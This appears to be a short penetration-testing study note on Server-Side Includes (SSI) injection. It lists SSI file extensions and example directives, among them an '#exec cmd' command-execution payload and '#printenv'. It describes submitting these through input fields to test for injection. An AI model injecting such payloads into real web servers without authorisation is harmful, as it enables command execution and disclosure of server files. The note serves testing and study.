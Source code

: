 # Server-Sides Includes

The use of SSI in a web application can be identified by checking for extensions
such as:
		- .shtml
		- .shtm
		- .stm




See the following example:

```
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification data of a file
<!-- #flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```



That said, non-default server configurations exist that could allow other extensions
(such .html) to process SSI directives.

We need to submit payloads to the target application, such as the ones mentioned
above, through input fields to test sor SSI injection. The web server will parse and
execute the directives before rendeering the page if a vulnerability is present,
bu be aware tath those vulnearbilities can exist in blind format too. Successful SSI 
injection can lead for extracting sensitive information form local files or even 
executing commands on the target web server.
